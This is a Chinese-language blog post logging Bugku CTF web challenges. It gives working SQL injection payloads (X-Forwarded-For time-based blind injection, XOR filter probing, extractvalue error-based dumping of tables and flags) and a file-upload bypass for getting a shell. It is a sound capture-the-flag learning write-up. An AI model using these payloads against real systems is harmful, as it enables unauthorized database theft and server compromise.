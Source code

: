 ```yaml
---
title: Bugku刷题记录（二）
author: Troy3e
avatar: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-07-15 13:34:58
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1087716.jpg
---
```


一、web8

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200715152829.png)

ac=flags&fn=flag.txt。

二、细心
挂了。。

三、求getshell
upload，后缀改为php5，content-type大小写绕过。

四、INSERT INTO 注入

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200715175348.png)

根据源码可知这是X_FORWARDED_FOR注入，但是过滤了逗号，无法使用if语句。
在mysql中与if有相同功效的就是：
select case when (条件) then 代码1 else 代码 2 end;
而且由于逗号,被过滤，我们就不能使用substr、substring了，但我们可以使用：from 1 for 1，所以最终的payload如下：
127.0.0.1'+(select case when substr((select flag from flag) from 1 for 1)='a' then sleep(5) else 0 end))-- +
脚本学习了这个大佬的：
 //https://blog.csdn.net/xuchen16/article/details/82904488

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ图片20200715230710.png)

L4：string模块里面的ascii_letters和digits代表大小写英文字母和数字。
L6：insert into value ('')这句话，可以执行()内的sql语句。所以先闭合，然后进行sql语句的执行。这里使用了 select case when（满足条件）then（语句1）else（语句2） end语句；语句中的 from 0 for 1 等价于 limit 0,1。
L13：添加xff头。
L14：timieout=3如果网站再3s内没有应答，就会抛出异常。
L15：因为在L7进行验证，如果True，就sleep(5)，这里就接受异常成功获取部分flag。
知识：case when then else end语句。from 0 for 1 和from -1(从后往前)姿势的学习。
这个代码的原理就是利用127.0.0.1+true/false去进行判断，如果是true，就与超时相违背，从而执行下面except的代码。

这道题还是不错的，了解了xff延时注入，写脚本也多了一种思路。

五、这是一个神奇的登陆框
挂了。。

六、多次
页面没有任何信息，url中有id，加上'报错，猜测是sql注入。
id=1'or 1=1--+ 也报错，可能存在过滤
用异或注入测一下过滤了啥，
例：?id=1'^(length('union')!=0)--+,如果返回页面显示正常，那就证明length(‘union’)==0的，也就是union被过滤了。同理测试出被过滤的字符串有：and，or，union，select。
oorrder by测出来两个字段，接下来就是爆表爆字段了。
基本操作就不写了，直接说结果：
表flag1,hint，
字段flag1,address
flag1中的数据不是flag，在address里找到了下一关的链接：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200715234331.png)

感觉和上次whuctf的那个sql一样，都是输入什么回显什么。。。当时用的是盲注。
看了一下wp。
当双写绕过和大小写绕过都没用时，这时我们需要用到报错注入。
报错注入介绍：//https://blog.csdn.net/silence1_/article/details/90812612

爆库
?id=1' and
(extractvalue(1,concat(0x7e,database(),0x7e)))--+

爆表
?id=1' and
(extractvalue(1,concat(0x7e,
(select group_concat(table_name) from information_schema.tables
where table_schema="web1002-2"),0x7e)))--+

爆列
?id=1' and
(extractvalue(1,concat(0x7e,
(select group_concat(column_name) from information_schema.columns
where table_schema="web1002-2" and table_name="flag2"),0x7e)))--+

爆flag
?id=1' and
(extractvalue(1,concat(0x7e,
(select group_concat(flag2) from flag2),0x7e)))--+
flag{Bugku-sql_6s-2i-4t-bug}

另：这一周有点水，下一周要大大增加学习量。

